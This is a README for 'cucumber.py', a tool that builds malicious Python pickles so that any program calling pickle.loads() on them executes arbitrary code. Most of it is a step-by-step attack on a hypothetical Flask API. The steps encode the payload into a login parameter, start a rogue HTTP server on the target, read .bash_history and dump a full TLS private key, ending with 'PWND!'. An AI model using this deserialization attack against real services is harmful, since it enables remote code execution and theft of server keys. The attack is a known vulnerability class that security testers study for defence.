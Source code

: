 # cucumber.py
---

cucumber.py, ACE via Python pickle unpacking. Written by
Oelin <me.oelin@gmail.com>.

### Usage

```sh
cucumber.py [path]
```
 
### Description

This script exploits features of Python's popular serialisation library, pickle in such a way to cause the execution of arbitrary code by programs at run-time. Simply specify the path to a file containing Python source code. An exploitative pickle serialisation will then be written to stdout (ouput). If another Python program attempts to unpack this
serialisation, the original code given will be executed. Note that this script should only be used for demonstratory purposes. It is not a security hacking tool!

### Examples

In the following example, a script to start a HTTP web server on port 8000 is crafted into a pickle serialisation. When subject to `pickle.loads()` (i.e by a vulnerable program), the script will be executed. The script can also be found in this repository at
`./scripts/httpd.py`.

```bash
$ ls
httpd.py
$ ./cucumber.py httpd.py > httpd.pickle
$ ls
httpd.py httpd.pickle
```
After the exploitative serialisation has been created, it can be used to test target programs for vulnerabilities, namely those which do not perform adequate input validation. Shown below, is a hypothetical scenareo where an attacker manages to obtain the private TLS key of a Flask web server. The API endpoint `/login` does not provide validation of input data yet at some point invokes `pickle.loads()` on said data. By sending `httpd.pickle` as input, the endpoint willingly transfers control to the malicious script which will start a second web server on port 8000. The attacker may then connect over port 8000 to read arbitrary files, including usually private ones.

```bash
$ curl https://api.alice.com/robots.txt
User-agent: *
Disallow: /users
Allow: /login
Disallow: /login?u=*
Allow: /search

$ curl https://api.alice.com/login?u=bob
{"state": "error", "reason": "base64 decode error"}

$ user=`echo bob | base64`
$ curl https://api.alice.com/login?u=$user
{"state": "error", "reason": "unpickling failed"}

$ user=`cat httpd.pickle`
$ curl https://api.alice.com/login?u=$user

...

^C
$ curl -I http://api.alice.com:8000/
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.7
Date: Thu, 28 Mar 2019 20:31:13 GMT
Content-type: text/html; charset=utf-8
Content-Length: 1907

$ curl http://api.alice.com:8000/.bash_history
.
.
.
ls
find . | grep 'key.pem'
cd /srv/http/alice.com/backup/tls
cat key.pem
vim
cd ~
.
.
.

$ curl http://api.alice.com:8000/srv/http/alice.com/backup/tls/key.pem
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQChTcy8+upAE3Nh
IGgpscmgMJaUR4PLyFxFbKNSXhSZwCEL27FtZEInRa9jcNYb4t4y272Z1xcHC311
x/JxBcOQ0EfMQmTmQP0jvfKQNA7TI4HOIKPsLS7GREtTZveqU1R7lNYR/fzhKmfn
ZELWE4PMbXelkalbuAzXbS1wo14M7T6U3kPXTbaatyIezTWCYnXJZhkK8vIszPnv
dn2Xo2i0H5NKOz5MKeUuZ3D++BawxlSQaGKiGrwvm+WCjD9BvncluMSbjwYmgXnM
l8+a1PDNPzY3s/TVoEKErNxox3jxu4HpWf70jF5soBK5yGde9s5RaYLSHQwf8969
crwx+6krAgMBAAECggEANn6vRcVLcJxhpZWqOzPaV2ky5iOHDkjBi57ZSpGISi1T
vMrbFYcCpnvvdhv/6enqgaolUx0MpY+nMix75t04pesH5qUjq3qXSwT4NumvfHuJ
dhcm6jqVi9w0ypeF4qBGcX3mGKwDTBrkgZMo1WRAacct3dzpJ5h1li5HZL98ncbb
onZwGKcGoAR4rfT0r+ijOs499OgGq3mRTceLK+PX0qnNU30B/IhwAvuSfKN4IiRH
d88tB+ZaasO+ZMTK8aEuM0GAgIl7OJLDswWaM2+AwawNrOyUaYHNSoQ0OPYc4/l7
CaoP6/ITnv5UrGGVKZbqVEo2YgGkHEDq7nPVc/flwQKBgQDU3cEv4q6Soue4ggwl
C5DlxHAu76ffQ55sU9L1IBUPS22Mf1td35CIVH5+Dj1Z9i3iSdACdFGs2NFxUGhC
CGICP41Uf5GG8YvcQh4KKJRTWeLLCr9RY4gK5vWeQE31JlzK18MfcrCXR058e+jA
MmQO6ZwG8OrxaZ6UsywvmNOXiwKBgQDB/UuwxgBOeGqGFdCzWtWMydNkbwEUjvho
3uL8wVWso8th+Bc1SPKd9wpEF+oZT/mhtvYc38JB9Q2eAri6uYEWfPrMXTmE9tje
U6TZhJf0Qg/NmATqCzkCmXSFIBaRFBSrlfD+fniFWw+GI4gntbNjjXFwxwHF0san
sK6uFblo4QKBgQCqlVbmb+rkGeZGJvliioVAjA42ntlRgtenCfmpdF9MFW8hw0HN
1YX2qnd/vxuNR0n36JzoCp0VPd+BxiT2nc8k7BbvGxfdIx6okNeP3nsW3JZxjhhJ
OdDgo7s7aV7P0UFVUFjOj9NSN9N+0LFxrDAg/zaJHXG5qqFpmrgTII6YBwKBgEs2
rFwzyPaj1Zl7Z9nChD38Gsw8Bc00ybfPg27AfzlaoIaxrD3qtLbui7pvE0MRMRa0
W6RCVY1BODBlmb48IoLXnl4SXzTgiKFbCPWVZV09J+ds46rjAw2w9e6PzHAfuwv0
LOZfntcFwXUe3bGXz5/vvWYeot9So9dst62jmqnBAoGBAJaCzGZ+/R3ndaAWLrzY
L2wlhdVMMdQ+CkLCgomaEVHvAgnxFXPCyLMslCw55DwJTqLZUnkZ+0ME1fywHxkU
vefy74c1qNFFi6JId3zkjFnTK0b+o1JsLLE9CFUOsJfOQuHDgCDMwSadcO6cdkxp
69cRB+4sChk3oWcFv7E8/euY
-----END PRIVATE KEY-----
$
$ # PWND!
```
